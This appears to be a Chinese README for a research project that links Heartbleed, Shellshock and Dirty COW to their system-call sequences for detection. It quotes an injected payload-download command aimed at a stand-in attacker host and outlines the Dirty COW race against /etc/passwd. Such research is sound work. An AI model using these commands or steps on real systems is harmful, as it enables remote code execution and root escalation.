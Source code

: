 Table.pdf 中是总结了漏洞类型与系统调用特征关联的表格

---

MaliciousCode 下是三个典型的高危漏洞 
- Heartbleed ：  这是一个边界检查缺失导致的信息泄露漏洞。攻击者可以向服务器发送一个特制的心跳请求，请求一块很大的内存（比如64KB），但实际只发送了很小的数据。有漏洞的服务器不会检查请求长度和实际数据长度是否匹配，直接从内存中复制并返回64KB数据，这其中就可能包含服务器的私钥、用户会话、密码等敏感信息。
- Heartbleed触发时的序列:

  1. 服务器进程通过 read()/recvfrom() 接收到攻击者发来的恶意心跳包。

  2. OpenSSL库在内存中处理这个包时，由于逻辑缺陷，会读取到不该读取的内存区域。

  3. 服务器最终通过 write()/sendto() 将这块包含敏感信息的内存区域发送回攻击者。
- Shellshock ： 这是一个命令注入漏洞。Bash在处理某些特殊构造的环境变量时，会错误地将环境变量值中的字符串作为命令来执行。当一个程序（如网页服务器的CGI脚本）接收用户输入并将其设置为环境变量，然后调用Bash时，攻击者就可以远程执行任意命令。<br><br>由于 bash 问题已被修复 ，可能需要旧版本的 docker 才能正确演示

- Shellshock触发时的序列:

    1. Apache进程通过 read() 接收到一个包含恶意HTTP头的请求。

    2. Apache fork() 并准备通过 execve() 运行CGI脚本。在调用 execve() 之前，它会将HTTP头（如User-Agent）设置为环境变量。

    3. execve() 成功执行，Bash进程启动。

    4. Bash在初始化、解析环境变量时，触发了漏洞。

    5. 关键点: Bash进程内部会再次调用 fork() 和 execve() 来执行攻击者注入的命令（例如 /bin/sh -c 'wget http://attacker.com/payload'）。

- Dirty COW ： 这是一个Linux内核的竞争条件漏洞，允许本地低权限用户提权至root。漏洞在于内核内存子系统处理写时复制（Copy-on-Write, COW）机制时存在缺陷。攻击者可以利用这个缺陷，向一个只读的内存映射（例如一个由root拥有的文件 /etc/passwd）写入数据。 <br><br> ***警告***：请务必在专门的、可丢弃的虚拟机或Docker容器中运行此代码。虽然此PoC是本地的，但它利用的是内核级漏洞，在不安全的系统上运行可能导致系统不稳定。
- Dirty COW触发时的序列:

    1. 攻击者进程使用 mmap() 将一个只读文件（如 /etc/passwd）映射到内存中。

    2. 进程创建两个线程。

    3. 线程A: 在一个循环中，反复调用 madvise(addr, len, MADV_DONTNEED)。这个调用告诉内核“我不再需要这块内存了”，内核会丢弃它，但保留映射关系。下次访问时会重新从文件加载（触发COW）。

    4. 线程B: 同时，在另一个循环中，通过 open("/proc/self/mem", O_RDWR) 并 lseek() 到目标内存地址，然后 write() 尝试向这块只读映射写入数据。
   
--- 
Scripts 下是表格中前五种情况的分析脚本 ， 以及用于清除生成/提供的日志的 clean.sh 脚本

***目前还不完善 ， 后续需要适配传入的 syscall 格式 ， 以及分析更多漏洞中存在的 syscall 关联 (可以从 Metasploitable2 / Metasploitable3 中提供的漏洞服务入手)***